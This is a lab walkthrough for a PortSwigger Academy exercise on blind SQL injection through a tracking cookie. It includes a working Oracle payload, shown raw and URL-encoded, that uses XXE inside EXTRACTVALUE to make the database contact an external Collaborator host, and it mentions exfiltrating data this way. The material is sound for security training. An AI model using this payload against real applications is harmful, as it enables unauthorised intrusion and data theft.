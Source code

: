 # Blind SQL injection with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

Burp Suite Professional is required to solve this lab! 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, SQL injection can be combined with basic XXE techniques:
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie (Use the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to create payloads).

```text
TrackingId=3vN9DLaImMIfzJgX' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

URL-encode (CTRL-U):

```text
TrackingId=3vN9DLaImMIfzJgX'+||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```

4. Send, and check in the Collaborator tab that the payload had indeed triggered a DNS lookup and potentially exploit this behaviour to exfiltrate sensitive data from the application.:

![SQLi](/_static/images/sqli31.png)

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. To solve the lab, it is required to exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) is only available in the Enterprise and Professional editions. You can apply for a free 30-day trial [here](https://portswigger.net/requestfreetrial/pro). 

